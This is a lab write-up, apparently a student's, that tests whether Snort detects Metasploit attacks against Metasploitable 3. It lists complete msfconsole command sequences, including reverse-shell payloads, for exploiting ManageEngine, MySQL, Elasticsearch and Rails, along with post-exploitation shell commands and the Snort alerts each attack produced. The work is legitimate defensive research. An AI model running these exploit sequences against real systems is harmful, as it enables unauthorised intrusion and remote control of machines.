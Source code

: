 
Is-it-easier-to-fix-the-application-than-to-detect-attacks.md

Draft

# Is it easier to fix the application than to detect attacks?

To research the question I setup the lab of MetaSploit (a penetration testing tool), Metasploitable (a deliberately vulnerable system) and Snort (an Intruder Detection System). 
I used Virtual Box running Metasploitable on a Windows 8 virtual machine (IP address: 192.168.06) and the Metasploit framework on an Ubuntu virtual machine (IP address: 192.168.04), which were both setup with bridged network so they could communicate with each other.

In the Snort configuration file I enabled all the Community rules to give the best chance of detecting an attack.
I also installed Wireshark on the Snort machine, to inspect the traffic and check it was flowing.
I used the nmap command from the Ubuntu machine to test that Snort was creating alerts correctly, specifically:
sudo nmap -sP 192.168.0.6 -disable-arp-ping

With this setup I was able to find three attacks which produced Snort alerts and two attacks which did not, as follows.

The first attack which triggered a Snort alert was against ManageEngine, which is software for managing desktops and mobiles.
To trigger this alert I took the following steps:
Open MetaSploit console with the command sudo msfconsole. In the MetaSploit console enter the commands:
use exploit/windows/http/manageengine_connectionid_write
set payload windows/meterpreter/reverse_tcp
set rhost 192.168.0.6
set rport 8020 
set lhost 192.168.0.4
set lport 443
exploit

This caused Snort to log the following alert:
03/18-14:39:10.347865  [**] [1:1054:14] SERVER-WEBAPP weblogic/tomcat .jsp view source attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 192.168.0.4:46771 -> 192.168.0.6:8020
So it has clearly detected the attack from the Web Application Attack rules.

The second attack which triggered a Snort alert was against SNMP (Simple Network Management Protocol).
This can be created by using the following commands in the MetaSploit console:
use auxiliary/scanner/snmp/snmp_enum
set rhost 192.168.0.6
set rport 8020 
set lhost 192.168.0.4
set lport 443
exploit

This triggered the Snort alerts:
03/18-16:16:13.000689  [**] [1:1411:19] PROTOCOL-SNMP public access udp [**] [Classification: Attempted Information Leak] [Priority: 2] {UDP} 192.168.0.4:43403 -> 192.168.0.6:161
03/18-16:16:13.000689  [**] [1:1417:17] PROTOCOL-SNMP request udp [**] [Classification: Attempted Information Leak] [Priority: 2] {UDP} 192.168.0.4:43403 -> 192.168.0.6:161

So Snort has detected the attack and recorded an Attempted Information Leak.

The third attack which triggered a SNort alert was against the MySQL database service.
This can be created by using the following commands in the MetSploit console:
use exploit/multi/mysql/mysql_udf_payload
set rhost 192.168.0.6
set rport 3306  
set lhost 192.168.0.4
set lport 443
exploit

This triggered the Snort alert:
03/18-14:59:00.631297  [**] [1:1394:17] INDICATOR-SHELLCODE x86 inc ecx NOOP [**] [Classification: Executable Code was Detected] [Priority: 1] {TCP} 192.168.0.4:40659 -> 192.168.0.6:3306
So Snort has detected the attack and recorded an Executable Code was Detected alert.

I was also able to evade Snort with two attacks.

The first was against Elasticsearch, which is a full-text search engine with a HTTP we interface.
This can be created by using the following commands in the MetSploit console:
use exploit/multi/elasticsearch/script_mvel_rce
set rhost 192.168.0.6
set rport 9200 
set lhost 192.168.0.4
set lport 443
exploit

This copies a JAR file onto the victim computer and executes it, connecting back to MetaSploit to create a shell. 
This is the Meterpreter console and was able to issue various commands, such as:
> upload /temp/trojan.exe c:\\
Copy an executable to the victim computer (not a real trojan, just an empty file).
> shell
Open a shell on the victim computer, followed by the command
> msg vagrant "Hello"
Pop up a message on the vagrant users screen.

No Snort alerts were triggered.

The second attack which evaded Snort was against Ruby on Rails. Which is a wbe application framework.
This can be created by using the following commands in the MetSploit console:
use exploit/multi/http/rails_web_console_v2_code_exec
set rhost 192.168.0.6
set rport 3000 
set lhost 192.168.0.4
set lport 443
exploit

I was then able to run the command:
> msg vagrant "Hello"
To pop up a message on the vagrant users screen.

No Snort alerts were triggered.

Though this shell seemed to be restricted as I was unable to get out of the directory C:\Program Files\Rails_Server
all running the command dir did then produce alert:
03/18-15:16:46.820336  [**] [1:1292:12] INDICATOR-COMPROMISE directory listing [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} 192.168.0.6:1502 -> 192.168.0.4:443
Though it is only of "Potentially Bad Traffic".

In conclusion I would say that the answer to the question "Is it easier to fix the application than to detect attacks?" is yes. I was able to evade an intruder detection system with two attacks, using widely available tools, so a more experience attacker would be bale to do this as well. 

A vulnerability in a application can be fixed by just patching it. The fix will be specific to the application and An application like ElasticSearch should never allow Remote Code Execution. Fixing tHis is a simpler problem than trying to detect an intruder, the results of this cannot be  guaranteed to be effective one hundred percent of th time as an attacker can use advanced  techniques such as fragmentation and obfuscation.

Overall I found Snort to detect quite a lot of the attack, but with the sensitivity turned up high there could be a lot of false positives which would increase the chance of the alerts being not taken ignored. I do think that an IDS could still be useful though as part of a defence in depth approach.


References

https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities